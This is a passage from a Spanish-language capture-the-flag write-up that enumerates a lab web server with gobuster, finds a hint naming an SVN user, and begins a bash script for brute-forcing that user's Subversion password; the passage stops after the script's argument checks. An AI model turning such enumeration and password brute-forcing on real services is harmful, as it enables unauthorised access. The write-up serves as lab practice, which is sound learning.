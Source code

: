 ```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 200) [Size: 163]
Progress: 118525 / 220560 (53.74%)
===============================================================
Finished
===============================================================
```

tenemos un archivo "upload", el cual si descargamos dice lo siguiente:

```css
¡Por aquí no es! ¿No viste al conejo? Iba con un mosquete y una boina revolucionaria... 
Pero con svnuser quizá puedas hacer algo en el repositorio subversion.
```

como vemos en el mensaje, nos dice que tendremos que fijarnos en el svnserver usando el usuario "svnuser" y en el repositorio "subversion".

### Puerto 3590

Si intentamos listar el repositorio nos pedirá una contraseña:

```css
svn list svn://172.17.0.2/subversion --username svnuser
```

```css
Reino de autentificación: <svn://172.17.0.2:3690> a073d24b-9572-4dee-bc6c-1dd0b855a29c
Clave de 'svnuser': 
```

por lo que tendremos que crear un script el cual nos permita hacer fuerza bruta para poder obtener la contraseña.

### SVN Brute Force

Continuaremos creando un script en bash con el siguiente contenido:

```bash
#!/bin/bash

wordlist=$1
ip=$2


if [ $# != 2 ]; then
  echo -e "Uso: $0 <WORDLIST> <IP>"
  exit 1
fi


if [ "$(ls $wordlist)" != "$wordlist" ]; then
  echo "El archivo no existe o no se puede acceder"
  exit 1
```